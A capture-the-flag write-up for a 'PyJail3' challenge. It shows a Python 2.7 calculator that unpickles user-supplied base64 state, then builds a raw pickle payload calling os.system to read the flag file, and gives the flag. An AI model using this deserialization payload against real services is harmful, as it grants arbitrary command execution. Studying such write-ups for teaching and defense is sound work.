 # [PyJail3](http://s1063.vdi.mipt.ru:8000/challenges#PyJail3)
You can find flag in `/home/pyjail3/flag.txt`

```python
#!/usr/bin/python2.7 -u
import pickle
import base64

def print_history(state):
    print 'Count: ' + str(len(state))
    for key in state:
        print key + ' = ' + str(state[key])

def export_state(state):
    print 'Your state: '+base64.b64encode(pickle.dumps(state))

def import_state(encoded_state):
    global state
    state = pickle.loads(base64.b64decode(encoded_state))

def evaluate(expr, state):
    for c in expr:
        if c not in whitelist:
            print("Go away!")
            exit(0)

    result = eval(expr)
    state[expr] = result
    print(expr + " = " + str(result))

print("Calculator v0.2")

whitelist = '0123456789.+-*/^%()&| '

menu = '''calc <expr> - evaluate expression
import <state> - load your state
export - print current encoded state
history - print your history
quit - exit from application'''

state = {}

while True:
    print menu
    choice = raw_input('> ')
    if choice == 'export':
        export_state(state)
        continue
    elif choice == 'quit':
        exit(0)
    elif choice == 'history':
        print_history(state)
        continue

    if ' ' not in choice:
        print 'Invalid command'
        continue

    command, arg = choice.split(' ', 1)
    if command == 'import':
        import_state(arg)
    elif command == 'calc':
        evaluate(arg, state)
    else:
        print 'Invalid command'

```

# Solution
1. Pickle is a module implements binary protocols for serializing and de-serializing a Python object structure. In the official docs there is some interesting stuff:
**Warning**: The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. 
Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
On github we can find the [source1](https://github.com/python/cpython/blob/master/Lib/pickle.py) and [source2](https://github.com/python/cpython/blob/master/Lib/pickletools.py). The most interesting part is opcodes:
```python
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.

MARK           = b'('   # push special markobject on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STOP           = b'.'   # every pickle ends with STOP
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
TUPLE          = b't'   # build tuple from topmost stack items
```

2. We need create a pickle string that execute some code while loads. For example: 
```
cos
system
(S'cat /home/pyjail3/flag.txt'
tR.
```
3. Then decode it with base64 and import in python program. When it will be loaded pickle execute bash code and prints flag:

**Answer**: `flag{p1ckl3_is_n0t_s4fe_ser1alizati0n_plz_use_js0n}`